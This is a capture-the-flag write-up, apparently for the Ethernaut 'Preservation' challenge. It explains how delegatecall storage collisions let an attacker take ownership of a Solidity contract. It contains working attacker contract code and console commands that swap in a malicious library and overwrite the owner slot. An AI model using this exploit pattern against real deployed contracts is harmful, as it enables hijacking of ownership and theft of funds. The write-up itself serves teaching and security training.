 1)
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract PreservationHack {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;

  constructor() public {}

  function setTime(uint256 _time) public {
    owner = address(uint160(_time));
  }

}
```
OR

2)
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract PreservationHack {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;

  constructor() public {}

  function setTime(uint256) public {
    owner = msg.sender;
  }
}
```

The delegatecall calls the another contract function such that the implementation code is that of the another contract but the state changes takes place on the contract running the delegatecall and also the msg.sender, msg.value etc on the called contract is that of the account calling the contract function with the delegatecall.

1) First step is to call setFirstTime function on the Preservation contract on the console with uint256 casted value of address of the PreservationHack contract. In my case 0x83A8aa134002dAAab1dc57d99968583c0057f0Ca is the PreservationHack contract address which is deployed using Remix.

```
await contract.setFirstTime(web3.eth.abi.encodeParameter('uint256', "0x83A8aa134002dAAab1dc57d99968583c0057f0Ca"));
```

web3.eth.abi.encodeParameter('uint256', "0x83A8aa134002dAAab1dc57d99968583c0057f0Ca") converts address which is uint160 to uint256. The conversion of 160bits to 256bits takes place by adding zeroes on the left until it becomes 256bits. So the result is uint256 i.e. 0x00000000000000000000000083a8aa134002daaab1dc57d99968583c0057f0ca

So after the first step the Library contract stores the uint256 _timestamp sent to the first slot and due to the nature of delegatecall the address of the PreservationHack contract is stored at slot 0 i.e timeZone1Library on Preservation contract. The uint256 is casted to address type which is 160bits so the original address of the PreservationContract is store. So now we can step into the second step of the attack.

2) So for the second step for the first PreservationHack contract we send uint256 casted value of the player address to set it to the third slot i.e owner on the Preservation contract.

```
await contract.setFirstTime(web3.eth.abi.encodeParameter('uint256', player));
```

For the second PreservationHack contract, we can send any uint256 as timestamp and owner will have the msg.sender value set as the context is of the Preservation contract but the implementation code used is of the PreservationHack contract.

```
await contract.setFirstTime(1);
```